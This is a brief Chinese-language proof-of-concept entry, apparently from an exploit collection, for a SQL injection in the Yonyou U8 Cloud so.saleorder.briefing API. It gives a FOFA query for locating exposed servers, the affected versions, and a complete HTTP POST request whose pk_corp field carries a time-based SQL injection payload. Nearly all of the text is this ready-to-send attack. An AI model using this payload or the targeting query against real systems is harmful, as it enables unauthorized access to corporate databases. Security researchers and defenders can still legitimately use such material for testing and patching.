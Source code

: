 # 用友U8cloud so.saleorder.briefing接口SQL注入漏洞

FOFA

```
title=="U8C"
```

影响版本

```
3.5，3.6，3.6sp，5.0，5.0sp，5.1，5.1sp
```

POC

```
POST /u8cloud/openapi/so.saleorder.briefing?appcode=huo&isEncrypt=N HTTP/1.1
Host:
User-Agent: Mozilla/5.0
Content-Length: 141

{"pk_corp":"1';WAITFOR DELAY '0:0:2'--","cuserid":"","date_begin":"","date_end":"",}
```